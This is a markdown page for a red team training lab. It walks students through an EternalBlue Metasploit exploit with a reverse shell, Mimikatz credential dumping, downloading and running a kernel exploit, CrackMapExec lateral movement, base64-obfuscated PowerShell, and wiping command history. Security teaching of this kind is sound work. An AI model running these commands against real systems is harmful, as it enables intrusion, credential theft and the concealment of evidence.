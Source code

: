 ```yaml
---
title: "Red Team Simulation & Adversarial Tactics Lab"
description: "Simulate a cyberattack using real-world adversarial tactics, including privilege escalation, lateral movement, and evasion."
date: 2025-03-08
tags: ["Red Team", "Lateral Movement", "Privilege Escalation", "Adversarial Simulation"]
categories: ["Advanced Security & Penetration Testing"]
draft: false
---
```


# Red Team Simulation & Adversarial Tactics Lab

## **Overview**
This lab focuses on **offensive security techniques** used by adversaries to **compromise systems, escalate privileges, and move laterally** in a network. Students will use real-world tools to simulate cyberattacks in a controlled environment.

---

## **Lab Instructions**

### **1. Setting Up Your Red Team Environment**
You will need:
- A **Kali Linux VM** (or Parrot Security OS)
- A **Windows Attack Target** (Windows 10/11 VM or Active Directory lab)
- Preinstalled tools: `Metasploit`, `BloodHound`, `Sliver`, `CrackMapExec`

---

### **2. Gaining Initial Access**
#### **Step 1: Exploit a Remote Service (Metasploit)**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [target_ip]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [attacker_ip]
exploit
```
📝 **Proof of Completion**: Take a screenshot of a successful session.

#### **Step 2: Credential Dumping with Mimikatz**
```powershell
mimikatz
privilege::debug
sekurlsa::logonpasswords
```
📝 **Proof of Completion**: Extract a set of credentials from the target machine.

---

### **3. Privilege Escalation**
#### **Step 1: Check for Misconfigurations**
```bash
whoami /priv
```
```bash
wmic qfe list brief | findstr "KB"  # Look for missing patches
```

#### **Step 2: Exploit a Kernel Vulnerability**
```bash
wget https://exploit-db.com/some_kernel_exploit.c -O exploit.c
gcc exploit.c -o exploit
./exploit
```
📝 **Proof of Completion**: Capture proof of administrator/system privileges.

---

### **4. Lateral Movement**
#### **Step 1: Enumerate Network Shares**
```bash
smbclient -L \\[target_ip] -U user
```
```bash
net use Z: \\[target_ip]\C$ /user:admin password
```
📝 **Proof of Completion**: Map a network share.

#### **Step 2: Move Laterally Using CrackMapExec**
```bash
crackmapexec smb [target_subnet] -u user -p password --exec "whoami"
```
📝 **Proof of Completion**: Show lateral movement to another machine.

---

### **5. Evading Detection**
#### **Step 1: Obfuscate PowerShell Scripts**
```powershell
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("powershell -c Invoke-Mimikatz"))
write-output $encoded
```
📝 **Proof of Completion**: Show your obfuscated PowerShell command.

#### **Step 2: Hide Your Tracks**
```powershell
Remove-Item -Path "C:\Windows\Temp\malware.exe" -Force
```
```bash
echo "" > ~/.bash_history
```
📝 **Proof of Completion**: Show a clean command history.

---

## **Final Submission**
- Submit a **Google Doc** with:
  - **Screenshots** of each phase (**initial access, privilege escalation, lateral movement, and evasion**).
  - A **short write-up** explaining each step.
- Ensure all steps are properly documented.

🚀 **Congratulations! You've completed the Red Team Simulation & Adversarial Tactics Lab!** 🚀


